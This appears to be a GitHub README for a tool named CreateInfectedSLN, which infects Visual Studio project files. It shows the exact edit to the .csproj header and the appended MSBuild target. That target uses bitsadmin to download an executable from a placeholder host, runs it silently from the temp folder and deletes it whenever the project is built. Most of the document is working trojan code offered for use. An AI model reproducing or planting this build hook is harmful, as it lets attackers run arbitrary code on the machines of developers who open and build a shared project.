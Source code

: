 ## Usage:



```cs
CreateInfectedSLN(Job(random Sting), Link(direct download), Filename(Name of file saved to temp));
```


## So what does this do?

```xml
This edits the file and adds a bit to it:
We change the 15 to 14 and add 'InitialTargets="Build"'
```

#### Clean .csproj:

```xml 
<Project ToolsVersion="15.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
```
#### Modifed .csproj
```xml 
<Project ToolsVersion="14.0" InitialTargets="Build" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
 ```

 ### We then append this to the end of the file:
```xml
<Target Name="Build">
    <Exec Command="bitsadmin.exe /transfer JOSHN38N http://domain.com/filename.exe %temp%\Demo.exe">
      <Output TaskParameter="ExitCode" PropertyName="ErrorCode"/>
    </Exec>
    <Exec Command="%temp%\Demo.exe">
      <Output TaskParameter="ExitCode" PropertyName="ErrorCode"/>
    </Exec>
    <Exec Command="del %temp%\Demo.exe" >
      <Output TaskParameter="ExitCode" PropertyName="ErrorCode"/>
    </Exec>
    <Message Importance="high" Text="$(ErrorCode)"/>
    </Target> 
```
### Here is the biggest part: 

We use bitsadmin to assign a job that downloads and runs the process after its downloaded in the background and requires no user interaction.  
```xml
<Exec Command="bitsadmin.exe /transfer JOSHN38N http://domain.com/filename.exe %temp%\Demo.exe">
 ```
## Extra Example: 
```cs
Job = JOSHN38N;
Link = http://domain.com/filename.exe;
Filename = Demo.exe;
```
